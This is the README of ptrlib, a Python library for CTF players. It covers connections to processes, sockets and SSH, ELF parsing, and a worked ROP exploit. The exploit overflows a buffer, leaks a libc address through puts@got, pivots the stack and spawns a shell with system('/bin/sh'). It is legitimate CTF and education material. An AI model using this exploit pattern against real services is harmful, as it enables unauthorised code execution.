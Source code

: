 ptrlib
====

![Python Test (Windows)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Windows%29/badge.svg)
![Python Test (Ubuntu)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Ubuntu%29/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Why not pwntools?
Ptrlib is designed to be as library-independent as possible.
Also, ptrlib has some pros such as supporting Windows process.

## Requirements
Supports: Python 3.10 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- `SSH` requires:
  - ssh
  - expect
- `nasm` requires:
  - nasm
- `assemble` requires:
  - gcc, objcopy (x86, x86-64)
  - arm-linux-gnueabi-gcc, aarch64-linux-gnu-gcc (arm, aarch64)
- `disassemble` requires:
  - objdump (x86, x86-64)
  - arm-linux-gnueabi-objdump, aarch64-linux-gnu-objdump (arm, aarch64)
- `consts` requires:
  - grep
  - gcc (x86, x86-64)

## Usage
Basic examples are available at [/examples](https://github.com/ptr-yudai/ptrlib/tree/master/examples/).

Testcases under [/tests](https://github.com/ptr-yudai/ptrlib/tree/master/tests/) may also help you understand ptrlib.

## Quick Document
There are many functions in ptrlib.
In this section we try using it for a pwnable task.

You can run executable or create socket like this:
```python
sock = Process("./pwn01", cwd="/home/ctf")
sock = Process(["./pwn01", "--debug"], env={"FLAG": "flag{dummy}"})
sock = Process("emacs -nw", shell=True, use_tty=True)
sock = Socket("localhost", 1234)
sock = Socket("example.com", 443, ssl=True, sni="neko")
sock = Socket("0.0.0.0", 8033, udp=True)
sock = SSH("example.com", username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", username="ubuntu", port=8022, identity="./id_rsa")
```

If you have the target binary or libc, it's recommended to load them first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
This doesn't fully analyse the binary so that it runs fast.
Also, ELF class supports cache to reduce calculation.

Since version 2.4.0, ptrlib supports loading debug symbol.
```python
libc = ELF("./libc.so.6")
print(libc.symbol("_IO_stdfile_1_lock"))
```

You can use some useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is an example to craft ROP stager.
```python
"""
Connect to host
"""
# Host name supports CTF-style
sock = Socket("nc localhost 1234")
# You can show hexdump for received/sent data for debug
#sock.debug = True

"""
Write ROP chain
"""
addr_stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += p64([
  # puts(puts@got)
  elf.gadget("pop rdi; ret;"),
  elf.got("puts"),
  elf.plt("puts"),
  # gets(stage2)
  # You can use indices to skip useless gadgets (e.g., newlines)
  elf.gadget("pop rdi; ret;")[1],
  addr_stage2,
  elf.plt("gets"),
  # stack pivot
  next(elf.gadget("pop rbp; ret;")), # old notation: `next` also works
  addr_stage2,
  elf.gadget("leave\n ret") # GCC-style
])
sock.sendlineafter("Data: ", payload)

"""
Leak libc address
"""
# You don't need to fill 8 bytes for u64
leak = u64(sock.recvline())
# This will show warning if base address looks incorrect
libc.base = leak - libc.symbol("puts")

payload  = b'A' * 8
paylaod += p64(next(elf.gadget("ret")))
# Automatically rebase after <ELF>.base is set
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))

# Shows warning if payload contains a character `gets` cannot accept
is_gets_safe(payload) # is_[cin/fgets/gets/getline/scanf/stream]_safe

sock.sendline(payload)

sock.sh() # or sock.interactive()
```

Interaction with curses is supported since 2.1.0.
```
sock.recvscreen()
if sock.recvscreen(returns=list)[1][1] == '#':
  sock.sendctrl("up")
else:
  sock.sendctrl("esc")
```

## Install
Run `pip install --upgrade ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [jptomoya](https://github.com/jptomoya)
  - Added CI for Windows
  - Added SSL support
  - Refactored test cases
- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
  - Added debug-symbol parser
